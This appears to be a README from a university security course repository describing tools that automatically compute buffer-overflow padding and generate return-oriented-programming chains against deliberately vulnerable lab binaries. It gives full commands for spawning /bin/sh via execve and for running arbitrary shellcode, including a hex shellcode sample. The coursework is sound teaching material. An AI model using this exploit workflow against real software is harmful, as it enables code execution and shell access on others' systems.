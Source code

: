 # Return Oriented Programming Chain Script (COMSM0102)

This repo contains code for generating return oriented programming (ROP) exploit chains. The program `auto-padder.py` first works out the amount of padding that is needed to overwrite the return address of the current function. The program `ROPGadget.py`, which is a modified version of the original found [here](https://github.com/JonathanSalwan/ROPgadget), can create ROP chains for arbitrary `execve()` syscalls and can handle .data addresses and values that contain NULL bytes - the program can (nearly) execute arbitrary shellcode. 

## Setting up the environment

We will be running this proof of concept in a Vagrant virtual machine by using the `Vagrantfile` below. We assume that you have vagrant installed on your machine. 
    
```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|
  config.vm.define "box" do |box|
                box.vm.box = "ubuntu/xenial64"
                box.vm.hostname = "SSS-RUN"
                box.vm.provider "virtualbox" do |virtualbox|
        virtualbox.name="SSS-RUN"
    end
  end
end

```

Save the above as a file named `Vagrantfile` into your working directory and run the following in bash to start up and connect to your VM - this might take a while depending on your internet connection.

```
vagrant up
vagrant ssh
```

We can now install some dependencies on the VM by running the following:

```
sudo apt update
sudo apt install -y python3-pip gcc-multilib unzip
pip3 install capstone
```

Traverse into the directory `/vagrant` with:
```
cd /vagrant
``` 

Unzip/extract the provided `code.zip` into your current working directory. If you are cloning the code from a repo, then remember to traverse into the local repository using `cd COMSM0049`.

We can extract the zip with the following:

```
unzip <filename.zip>

```

All of the test programs that we will be using are found in the directory `vulnz` and to compile each of them, we can run:

```
gcc -fno-stack-protector -m32 -static vulnz/vuln1.c -o vulnz/vuln1-32
gcc -fno-stack-protector -m32 -static vulnz/vuln2.c -o vulnz/vuln2-32
gcc -fno-stack-protector -m32 -static vulnz/vuln3.c -o vulnz/vuln3-32
gcc -fno-stack-protector -m32 -static vulnz/vuln4.c -o vulnz/vuln4-32
```

## Running the code

`auto-padder.py` finds the amount of padding needed to overwrite the return address. We can run `auto-padder.py` with the command below - the `--file` flag is used to denote what type of input the buffer overflow makes us of:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file
```

We can choose to pipe the value of padding into our modified ROPGadget.py by using the `-p` flag:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 --file -p
```

Running `ROPgadget/ROPgadget.py` will output the generated ROP chain into the file `ropchain`. For debugging purposes, we can view the ropchain using `hexdump -C -v ropchain`

We can use the flags `--file`, `--arg` and `--stdin` to specify what input type the vulnerale file uses or use the shortened versions respectively `-f`, `-a` or `-i`. For example:

```
python3 ROPgadget/auto-padder.py vulnz/vuln1-32 --arg
python3 ROPgadget/auto-padder.py vulnz/vuln2-32 --stdin
```

If we already know the amount of padding that is required to overwrite the return address of the current function, then we can directly run our modifed version of `ROPgadget.py` with the amount of padding paramertised. We do this with the `-p` or `--padding` flags.

```
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 --padding=44
```

By default, the execve that we run is `execve("/bin/echo", ["/bin/echo", "The", "exploit", "is", "working"], NULL)`. We can now run the generated ROP chain on `vulnz/vuln4-32` and see the `execve` run by using:

```
vulnz/vuln4-32 ropchain
```

## Arbitrary execve()

To generate a ropchain with an arbitrary execve we can set the environment variable `ROPCMD` to run our choosen program. For example:

```
export ROPCMD="/bin/sh"
```

We can then run either `auto-padder.py` to generate the ropchain or we can run `ROPgadget.py` directly as such:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44
```

If we need to, we can can easily remove the environment variable by unsetting it:

```
unset ROPCMD
```

## Arbitrary Shellcode

Our modified `ROPgadget.py` allows us to run arbitrary shellcode. Below we have some example shellcode that we can copy and paste into a file called `shellcode_human_readable`, the file is a hexdump and so any other arbitrary shellcode should in this format.

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

We need to convert the hexdump into binary which can be done as the following command:

```
xxd -p -r shellcode_human_readable > shellcode_bin
```

Our shellcode has now been converted from its hex encoding into its binary encoding and is found in the output file `shellcode_bin` which we can now use as our input to our programs. We can then create a ROP chain from either `auto-padder.py` or directly from `ROPGadget.py` as follows:

```
python3 ROPgadget/auto-padder.py vulnz/vuln4-32 -f -p --shellcode shellcode_bin
python3 ROPgadget/ROPgadget.py --ropchain --binary vulnz/vuln4-32 -p=44 --shellcode shellcode_bin
```

Again, we can run the ROP chain with:

```
vulnz/vuln4-32 ropchain
```

## Help
As per standard, each program has a "help" display which provides the user with more information. This can be accessed with the `-h`/`--help` flag:

```
python3 ROPgadget/ROPgadget.py --help
python3 ROPgadget/auto-padder.py --help
```